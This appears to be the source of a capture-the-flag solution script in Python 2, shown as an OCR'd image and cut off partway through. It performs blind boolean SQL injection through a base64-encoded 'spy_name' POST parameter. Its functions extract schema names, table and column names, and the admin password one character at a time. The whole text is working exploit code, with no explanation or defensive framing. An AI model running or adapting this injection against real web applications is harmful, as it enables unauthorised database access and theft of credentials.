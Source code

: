 ```python
def leak_shema_name():
  flag = False
  for k in range(100):
    if flag:
      break
    schema = ""
    for j in range(1,100):
      for i in range(126,32,-1):
        buf = "alix' and ord(substr((select schema_name from information_schema.schemata limit "
        buf += str(k)
        buf += ",1),"
        buf += str(j)
        buf += ",1)) > "
        buf += str(i)
        buf += " #"
        param = {"spy_name":buf.encode('base64')}
        res = requests.post(url,param)
        if judge(res.text):
          schema += chr(i+1)
          print "[+] now:%s" % schema
          break
      if len(schema) != j:
        if len(schema) != 0:
          print "[*] schema name:%s" % schema
          break
        else:
          flag = True
          break

def leak_table_column_name():
  leak = ""
  for j in range(1,1000):
    for i in range(126,32,-1):
      buf = "alix' and ord(substr((select group_concat(table_name,':',column_name) from information_schema.columns  where table_schema LIKE 'spy_database' limit 0,1),"
      buf += str(j)
      buf += ",1)) > "
      buf += str(i)
      buf += " #"
      param = {"spy_name":buf.encode('base64')}
      res = requests.post(url,param)
      if judge(res.text):
        leak += chr(i+1)
        print "[+] now:%s" % leak
        break
    if len(leak) != j:
      print "[*] %s" % leak
      break

def leak_admins_password():
  leak = ""
  for j in range(1,1000):
    for i in range(126,32,-1):
      buf = "alix' and ord(substr((select password from users  where username LIKE 'admin' limit 0,1),"
      buf += str(j)
      buf += ",1)) > "
      buf += str(i)
      buf += " #"
      param = {"spy_name":buf.encode('base64')}
      res = requests.post(url,param)
      if judge(res.text):
        leak += chr(i+1)
```